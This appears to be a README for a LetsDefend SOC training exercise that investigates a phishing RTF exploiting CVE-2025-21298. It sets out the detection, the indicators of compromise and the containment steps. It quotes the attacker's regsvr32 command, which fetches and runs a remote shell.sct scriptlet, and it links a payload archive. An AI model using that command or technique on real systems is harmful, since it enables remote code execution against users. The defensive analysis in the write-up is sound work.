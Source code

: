 # SOC336-Windows-OLE-Zero-Click-RCE-Detection

# 📄 Project Title:
**Windows OLE Zero-Click RCE Exploitation - CVE-2025-21298 (SOC336 Detection)**

---

## 📅 Incident Details

- **Event ID**: 314  
- **Event Time**: February 4, 2025, 04:18 PM  
- **Detection Rule**: SOC336 - Windows OLE Zero-Click RCE Exploitation Detected (CVE-2025-21298)  
- **Alert Level**: Security Analyst  
- **Classification**: Malware

---

## 📁 Incident Summary

On February 4, 2025, LetsDefend's SIEM triggered an alert for a **zero-click remote code execution (RCE)** exploitation attempt via an RTF attachment exploiting **CVE-2025-21298**.  
An email from `projectmanagement@pm.me` targeting `Austin@letsdefend.io` contained a malicious file (`mail.rtf`), which upon opening, initiated a fileless attack using the **regsvr32.exe** binary.

**Key Details:**

- **Attachment Name**: `mail.rtf`
- **Attachment Hash**: `df993d037cdb77a435d6993a37e7750dbbb16b2df64916499845b56aa9194184`
- **Threat Command**:
  ```
  C:\Windows\System32\cmd.exe /c regsvr32.exe /s /u /i:http://84.38.130.118.com/shell.sct scrobj.dll
  ```
- **Malicious IP**: `84.38.130.118` (Latvia | rixhost.lv)
- **Request URL**:
  - `http://84.38.130.118.com/shell.sct`
  - Secondary Payload: [Attachment.zip](https://files-ld.s3.us-east-2.amazonaws.com/attachment.zip)

---

## 🛠️ Tools Used for investigation

- [VirusTotal](https://www.virustotal.com/)
- [AbuseIPDB](https://www.abuseipdb.com/)
- [ChatGPT](https://openai.com/)
- [URLhaus](https://urlhaus.abuse.ch/)

---


## 📸 Screenshots

| Screenshot | Description |
|:-----------|:------------|
| ![Results](/Results.png) | Investigation results overview |
| ![Artifacts](/artifacts.png) | Forensic artifacts collected |
| ![Command Execution](/cmd-run.png) | Command run details (cmd.exe / regsvr32 attack) |
| ![Log Management](/log-management.png) | Logs management and SIEM view |
| ![Raw Logs](/raw-log.png) | Raw event log showcasing payload |
| ![Threat Intelligence](/threat-intel.png) | Threat intel results about IP/domain |
| ![URLhaus Scan](/urlhaus.png) | Malicious URL investigation via URLhaus |
| ![VirusTotal Scan 1](/virustot1.png) | VirusTotal file scan result |
| ![VirusTotal Scan 2](/virustot2.png) | VirusTotal URL analysis result |

---



## 📊 Analysis and Actions Taken

- **Detection**: Malicious RTF identified via pattern matching of CVE-2025-21298.
- **Behavior Observed**: Fileless attack leveraging `regsvr32.exe` to execute remote script.
- **Initial Response**: IP flagged and attachment quarantined.
- **Containment**: Endpoint isolated, email purged across system, URL blocked at network level.
- **Escalation**: Incident escalated to Tier 2 SOC analysts for further forensic investigation.

---

## 🔥 Lessons Learned

- Importance of monitoring **fileless attacks** through behavior-based detection.
- **Zero-click exploits** require rapid detection before payload execution.
- Even **legitimate system binaries** like `regsvr32.exe` can be weaponized by threat actors.

---

## 🔥 Outcome

This exercise reinforced skills in:
- SIEM Log Analysis
- Threat Hunting
- Threat Intelligence Gathering
- Incident Response Documentation

---


## 📂 Project Structure

```bash
SOC336-Windows-OLE-Zero-Click-RCE/
├── README.md
├── Results.png
├── artifacts.png
├── cmd-run.png
├── log-management.png
├── raw-log.png
├── threat-intel.png
├── urlhaus.png
├── virustot1.png
└── virustot2.png
```
